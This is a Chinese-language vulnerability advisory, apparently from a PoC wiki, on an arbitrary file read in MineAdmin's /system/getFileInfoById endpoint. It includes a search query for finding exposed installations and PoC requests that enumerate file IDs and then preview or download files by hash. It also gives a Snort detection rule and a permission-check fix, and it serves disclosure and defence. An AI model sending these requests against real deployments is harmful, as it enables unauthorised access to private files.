

# MineAdmin企业级后台管理系统getFileInfoById任意文件读取漏洞

MineAdmin官网：https://doc.mineadmin.com/

资产测绘语法：body="MineAdmin"

# 影响版本

MineAdmin v1.x
MineAdmin v2.x

# **漏洞描述:** 

MineAdmin后台管理系统基于 Hyperf 框架开发。是一个后台权限管理系统，提供完善的权限体系，让开发者把注意力集中到具体业务当中，降低开发成本，提高项目效率。/system/getFileInfoById?id=处存在任意文件读取漏洞，由于文件 ID 是自增数字，攻击者可通过枚举 ID 读取文件hash,利用/system/showFile接口预览或者利用/system/downloadByHash下载文件。

# 漏洞复现

POC/EXP：

```
GET /system/getFileInfoById?id=43 HTTP/1.1
Host: 127.0.0.1:9501
```




POC/EXP：

```
hash读取接口poc:
/system/showFile/e10adc3949ba59abbe56e057f20f883e
hash下载接口poc:
/system/downloadByHash?hash=e10adc3949ba59abbe56e057f20f883e
```


sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"MineAdmin - Arbitrary File Read via getFileInfoById";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri; content:"/system/getFileInfoById";
    http.uri; content:"id=";
    metadata:
        service http,
        affected_product "MineAdmin企业级后台管理系统",
        vulnerability_type "Arbitrary File Read",
        severity "high";
    classtype:web-application-attack;
    sid:1000577;
    rev:1;
    priority:1;
)
```


# 漏洞修复

1./system/getFileInfoById?id=1接口、/system/showFile/接口、/system/downloadByHash?hash=,接口处加强权限校验。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
